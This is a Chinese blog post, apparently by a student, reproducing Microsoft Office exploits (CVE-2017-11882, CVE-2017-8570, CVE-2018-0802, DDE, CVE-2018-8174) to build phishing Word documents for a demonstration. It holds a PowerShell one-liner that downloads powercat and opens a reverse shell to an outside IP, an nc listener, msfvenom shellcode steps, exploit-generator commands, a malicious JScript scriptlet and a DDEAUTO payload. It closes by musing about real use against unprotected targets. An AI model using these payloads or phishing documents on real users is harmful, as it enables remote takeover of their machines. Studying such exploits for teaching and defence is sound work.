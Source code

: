 新的一年迎新又开始啦，回想一年前这个时候的自己，算是有那么一丢丢的进步了吧。一年前的时候，貌似php都不会2333，浏览器的开发者工具都不晓得，
貌似就会搭一个wifi，hahah，扎心了，新的一年努力学习吧骚年！！！
这次迎新让同学们见识下钓鱼邮件是什么样子的，主要放的是word文档，也可以整理下office这两年爆出的漏洞，虽然说过不了360的吧，但是演示起来很酷的呀～

## CVE-2017-11882
其实复现起来都很好说，github上都给了生成文件的脚本了 [链接](https://github.com/unamer/CVE-2017-11882)
首先为了实际钓鱼中应用，先弹个shell再说，找到了两种方式，一种是powershell 反弹一句话，另一种是直接写入shellcode运行，先看第一种
powershell一句话反弹shell
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 1.1.1.1 -p 9999 -e cmd
```
[参考链接](https://www.anquanke.com/post/id/99793)

然后利用脚本构造恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/81.png)

kali上nc监听端口等待连接 ````nc -lvp 9999````
目标打开恶意word文档后 shell反弹回来

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/82.png)

第二种方式先用msfvenom生成shellcode

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/83.png)

然后利用脚本生成恶意word文档

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/84.png)

目标打开文档后msf上线

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/85.png)

不过后来考虑了下，同学们应该get不到上面操作的含义，所以直接来个简单直接的办法

````python a.py -c "cmd.exe /c start ssText3d.scr /s" -o 1.doc````
同学们打开恶意文档后就会出现如下文字

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/86.png)

## CVE-2017-8570

[Github脚本链接](https://github.com/rxwx/CVE-2017-8570)

实现跳出文字的效果，这里要注意一下，先要修改calc.sct文件

```
<?XML version="1.0"?>
<scriptlet>

<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
</registration>

<script language="JScript">
<![CDATA[

		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /c start ssText3d.scr /s");
	
	
]]>
</script>

</scriptlet>
```
然后利用脚本生成恶意文件

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/87.png)

这个是远程下载文件calc.sct修改方式

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/88.png)

没有尝试powershell一句话，应该可以的吧

##CVE-2018-0802

这个是对CVE-2017-11882补丁的一个绕过 github脚本很详细了 [链接](https://github.com/rxwx/CVE-2018-0802)

## DDT
这个用不到office宏 复现很简单

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/89.png)

改成````DDEAUTO C:\\windows\\system32\\cmd.exe "/c start ssText3d.scr /s"````

但是应用的时候要目标点击”是“才行

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/810.png)

![](https://raw.githubusercontent.com/0linlin0/Records/master/images/811.png)

## CVE-2018-8174

这个直接就有msf的脚本呀 放上链接 [链接](https://github.com/0x09AL/CVE-2018-8174-msf)

but这些实际当中还能用嚒，可能会碰上没装杀软的吧hahaha......
